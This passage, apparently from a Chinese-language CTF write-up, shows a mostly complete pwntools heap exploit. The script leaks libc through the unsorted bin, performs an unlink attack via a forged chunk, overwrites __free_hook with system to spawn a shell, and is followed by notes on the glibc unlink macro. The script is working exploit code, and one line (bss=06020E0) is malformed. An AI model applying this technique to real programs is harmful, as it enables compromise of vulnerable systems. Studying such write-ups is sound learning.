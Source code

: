 ```python
    cin(3)
    io.sendlineafter(b'please input the idx',str(index))
    
def edit(index,content):
    cin(4)
    io.sendlineafter(b'please input the idx',str(index))
    io.sendafter(b'please input the content',content)
bss=06020E0
ptr = 0x6020F0 #bss

#创建4个，每个chunk的作用各不相同，chunk0用于泄露，chunk3用于执行shell的字符串（指针存在），chunk1和chunk2用于在data中间fakechunk
add(0,0x88)
add(1,0x88)
add(2,0x88)
add(3,0x88)

#编辑第三个
edit(3,b'/bin/sh\x00')

#删除第0个,进入了unsorted bin
delete(0)
#重新加回来，用于泄露
add(0,0x88)
show(0)

#泄露main_arena
leak_addr=uu64()
print(hex(leak_addr))
main_arena=leak_addr-88

#找到malloc_hook，free_hook
malloc_hook=main_arena-0x10
libc_base = malloc_hook - libc.symbols["__malloc_hook"]
free_hook=libc_base+libc.sym['__free_hook']
print(hex(libc_base))

#伪造fake_chunk，在chunk1和chunk2中间
payload=p64(0)+p64(0x80)+p64(ptr-0x18)+p64(ptr-0x10)+b'a'*0x60+p64(0x80)+p64(0x90)
edit(1,payload)

#删除2，unlink
delete(2)

#修改为指向free_hook
edit(1,b'c'*0x18+p64(free_hook))
#修改为system
edit(1,p64(libc_base+libc.sym['system']))
print(hex(free_hook))

#执行shell
delete(3)

shell()
```
![](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1683904853290-8d42a144-b5a0-44dd-96db-00822b60fa41.jpeg)<br />为什么选择0x88<br />![](https://cdn.nlark.com/yuque/0/2023/png/29466846/1684201608607-a6da6f43-1c09-4f5b-aec1-4e55576036c3.png#averageHue=%23ecef02&from=url&id=fSHKJ&originHeight=339&originWidth=1232&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&status=done&style=none&title=)<br />为什么选择bss-0x18，bss-0x10<br />先看unlink源码
```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {   //注意，在largebin链表中在unlink时寻找合适堆块的遍历是反向遍历
								  //即从小到大使用bk_nextsize进行遍历
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0)) //安全性检查     
      malloc_printerr ("corrupted size vs. prev_size");			      
    FD = P->fd;		//获取victim的前后指针
    BK = P->bk;		//形式为：free chunk(bck) victim free chunk(fwd)						      
```